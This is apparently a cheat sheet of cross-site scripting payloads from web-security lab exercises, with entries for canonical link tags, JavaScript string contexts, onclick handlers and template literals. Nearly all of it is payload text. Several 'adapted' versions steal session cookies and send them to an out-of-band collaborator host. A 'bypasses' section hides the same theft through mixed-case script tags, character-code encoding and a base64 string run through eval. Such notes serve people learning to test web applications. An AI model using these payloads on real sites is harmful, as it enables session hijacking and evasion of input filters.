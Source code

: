 
### 11. Reflected XSS in canonical link tag
```
'accesskey='x'onclick='alert(1)
```


### 12. Reflected XSS into a JavaScript string with single quote and backslash escaped
```
</script><script>alert(1)</script>
```
**Adapted version**
```
</script><script>document.location="http://burp.oastify.com/?c="+document.cookie</script>
```


### 13. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
```
\';alert(1);//
\'-alert(1)//
```
**Adapted version**
```
\';document.location=`http://burp.oastify.com/?c=`+document.cookie;//
```


### 14. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```
http://foo?&apos;-alert(1)-&apos;
```


### 15. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
```
${alert(1)}
```


## Some Useful Bypasses
```
</ScRiPt ><ScRiPt >document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</ScRiPt > 

Can be interpreted as

</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```
```
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
```
```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```